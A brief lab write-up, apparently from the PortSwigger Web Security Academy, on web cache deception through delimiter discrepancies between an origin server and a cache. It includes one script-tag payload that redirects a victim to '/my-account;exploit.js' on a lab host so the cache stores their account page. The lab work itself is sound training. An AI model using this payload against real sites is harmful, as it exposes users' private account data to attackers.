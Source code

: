 # Exploiting delimiters for Web cache deception

By inspecting a webpage, it’s possible to notice that some delimiters could be treated differently between an origin server and a caching agent

![image.png](Exploiting%20delimiters%20for%20Web%20cache%20deception%201f9021737a89801a97fde6fffd2827a8/image.png)

![image.png](Exploiting%20delimiters%20for%20Web%20cache%20deception%201f9021737a89801a97fde6fffd2827a8/image%201.png)

![image.png](Exploiting%20delimiters%20for%20Web%20cache%20deception%201f9021737a89801a97fde6fffd2827a8/image%202.png)

With that, we can use delimiters to craft an exploit.

```bash
<script>document.location="https://0a7e00e10445fc97d72677630082003f.web-security-academy.net/my-account;exploit.js"</script>
```

![image.png](Exploiting%20delimiters%20for%20Web%20cache%20deception%201f9021737a89801a97fde6fffd2827a8/image%203.png)